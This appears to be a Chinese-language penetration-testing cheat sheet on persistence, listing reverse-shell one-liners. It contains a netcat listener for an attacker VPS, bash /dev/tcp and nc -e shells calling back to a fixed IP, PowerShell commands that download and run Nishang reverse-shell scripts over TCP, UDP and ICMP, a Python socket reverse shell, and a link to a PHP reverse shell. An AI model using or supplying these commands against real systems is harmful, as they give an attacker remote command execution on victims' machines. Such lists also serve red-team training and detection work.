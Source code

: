 ```yaml
---
title: 权限维持
---
```


## 反弹Shell

**攻击者VPS监听**

```bash
nc -lvp 9999
```

**BASH**

```bash
/bin/bash -i &> /dev/tcp/192.168.0.198/9999 <&1

/bin/sh -i &> /dev/tcp/192.168.0.198/9999 <&1
```

**Netcat**

```bash
nc -e /bin/bash 192.168.0.198 9999
```

**PowerShell**

将ps1脚本先放到VPS上

```powershell
##TCP
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.0.198 -port 9999

##UDP
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellUdp.ps1');Invoke-PowerShellUdp -Reverse -IPAddress 10.1.1.1 -port 53

##ICMP
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellIcmp.ps1');Invoke-PowerShellIcmp -IPAddress 192.168.159.134
```

**Python**

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.1.1.1",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP**

https://github.com/pentestmonkey/php-reverse-shell
